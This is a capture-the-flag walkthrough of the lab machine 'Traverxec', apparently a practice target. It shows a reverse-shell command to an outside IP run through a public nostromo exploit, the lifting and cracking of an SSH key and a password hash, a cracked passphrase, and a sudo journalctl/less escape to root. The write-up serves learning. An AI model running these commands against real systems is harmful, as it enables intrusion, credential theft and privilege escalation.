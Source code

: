 ## Info
### Credential
 User | Password | Service | Note
------|----------|---------|------
david |          |         |passphrase: `hunter`

### HTTP
- Server: `nostromo 1.9.6`
- `/empty.html`
- `/~david`


## Path
#### User
1. Run `47837.py` from EDB, and get the reverse shell.
```
python2 47837.py $ip 80 "bash -c 'bash -i >& /dev/tcp/10.10.16.3/13337 0>&1'"
```
2. Find `david`'s hash at `/var/nostromo/conf/.htpasswd` and crack the password.
3. According to the document, found `/~david` and possible directory `public_www`.
```
$ cat /var/nostromo/conf/nhttpd.conf
...
# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
$ man nhttpd
HOMEDIRS
     To serve the home directories of your users via HTTP, enable the homedirs option by defining the path in where the home directories are
     stored, normally /home.  To access a users home directory enter a ~ in the URL followed by the home directory name like in this example:

           http://www.nazgul.ch/~hacki/

     The content of the home directory is handled exactly the same way as a directory in your document root.  If some users don't want that their
     home directory can be accessed via HTTP, they shall remove the world readable flag on their home directory and a caller will receive a 403
     Forbidden response.  Also, if basic authentication is enabled, a user can create an .htaccess file in his home directory and a caller will
     need to authenticate.

     You can restrict the access within the home directories to a single sub directory by defining it via the homedirs_public option.
```
4. Since user `www-data` has execute right on the directory `/home/david`, we can `cd` into `david/public_www`.
5. Get `backup-ssh-identity-files.tgz` in `/home/david/public_www`, then decompress it to get `id_rsa`. Crack the passphrase with `john`.
```
www-data@traverxec:/dev/shm$ ls
total 560
drwxrwxrwt  3 root     root        160 Jul 31 11:09 .
drwxr-xr-x 16 root     root       3160 Jul 31 03:30 ..
-rw-r--r--  1 www-data www-data   1915 Jul 31 11:02 backup-ssh-identity-files.tgz
www-data@traverxec:/dev/shm$ tar zxvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```
6. Login via SSH and get the user flag.
### Root
1. From `~/bin/server-stats.sh`, it reveals `david` can run `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` as `root` without password.
```
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
2. Shrink the column of the tty to less then 5, so we can be sent into `less`. Then use `less` to spawn a shell and get the root flag.
```
$ stty cols 4
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/bash
$ whoami
root
```


